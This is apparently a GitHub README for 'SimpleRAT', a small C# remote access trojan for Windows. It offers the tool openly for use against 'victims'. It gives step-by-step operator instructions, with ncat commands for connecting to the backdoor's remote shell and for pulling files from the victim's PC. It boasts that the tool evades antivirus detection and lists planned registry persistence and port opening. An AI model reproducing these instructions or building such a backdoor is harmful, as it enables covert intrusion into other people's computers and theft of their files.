 # SimpleRAT

Small RAT/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Developed for Windows.

# What RAT can
1. After connection on specified port (provided in JSON file, which can be changed as you wish), gives reverse shell.
2. Is able to download any files from victim's PC on specified port (provided in JSON file), no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
#### How to download files:
1. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")
Example: ncat -v -l -p 8889 > helloworld2.exe
NOTE: I advice you to use "-v" for more verbose output
2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)
Example: ncat 192.168.88.220 8888
3. Check if reverse shell is working (cd, dir)
4. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)


Currently is FUD as it is small and simple, without any specific features.

TODO/Plans: 

1. File upload to victim's PC;
2. Merge JSON configuration into exe file, not to download anything additionally;
3. Create key in registry for self startup;
4. Open ports required for communications (for main connection, for file download, etc).
